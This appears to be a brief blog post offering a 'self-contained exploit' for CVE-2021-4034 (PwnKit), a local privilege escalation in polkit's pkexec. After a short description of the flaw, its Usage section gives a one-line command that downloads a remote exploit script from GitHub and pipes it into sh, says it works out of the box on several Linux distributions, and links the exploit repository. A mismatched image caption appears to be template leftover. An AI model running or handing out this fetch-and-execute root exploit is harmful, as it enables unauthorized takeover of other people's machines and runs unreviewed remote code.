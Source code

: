 ```yaml
---
title: "CVE-2021-4034"
description: "Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation"
dateString: April 2024
draft: false
tags: ["Exploit", "Localroot", "CVE-2021-4034"]
weight: 103
cover:
    image: "/blog/CVE-2021-4034/1.jpg"
---
```


# CVE-2021-4034
A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

# Usage
Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.
```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
![My Notion Books Database](/blog/CVE-2021-4034/pwnkit.jpg)
Or you can visit this github
```
https://github.com/ly4k/PwnKit
```